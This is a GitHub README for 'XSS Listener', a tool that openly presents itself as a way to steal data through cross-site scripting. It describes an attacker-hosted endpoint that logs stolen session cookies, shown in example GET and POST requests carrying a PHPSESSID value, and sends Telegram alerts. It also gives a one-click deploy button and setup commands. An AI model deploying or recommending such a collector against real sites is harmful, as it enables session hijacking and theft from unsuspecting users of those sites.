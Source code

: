 ![logo](https://cagatay.js.org/spider.png)

# 🕷️ XSS Listener is a penetration tool for easy to steal data with various XSS.

From now on, you do not need XSS listeners! XSS listener records the data you have stolen on the remote site in the database, and gives instant notification with telegram.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/cagataycali/xss-listener)

# 🕸️ Know-How Background

- [What is XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

- [Steal cookie with XSS without redirecting to another page](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)

- [TR | How to use XSS](https://canyoupwn.me/tr-how-to-use-xss/)

# 🕸️ Listener Usage

Listener accepts all HTTP methods with parameters, then save database. Example:

```
GET https://yourapp.com/?cookie=PHPSESSID=889c6594db2541db1666cefca7537373

or

POST https://yourapp.com/
Form: { cookie:'PHPSESSID=889c6594db2541db1666cefca7537373' }
```

## You will notify by telegram bot.

![output](https://cagatay.js.org/output.png)

### 🕸️ Detailed Usage

<details>

#### 🕸️ List previous requests
<code>https://yourapp.com/list</code>

#### 🕸️ Delete previous request by id
<code>https://yourapp.com/delete/[id]</code>

#### 🕸️ Even you can use telegram

<code>/list</code>

<code>/delete [id]</code></details>

#### 🕸️ Run local environment

In terminal,

```shell
git clone https://github.com/cagataycali/xss-listener.git; # Clone
cd xss-listener; # Change directory.
npm install; # Install dependencies.
# Fill bot token and user id.
TELEGRAM_TOKEN=[BOT TOKEN] TELEGRAM_USER_ID=[USER ID] node index.js
```

#### License

MIT © [Çağatay Çalı](https://cagatay.me)
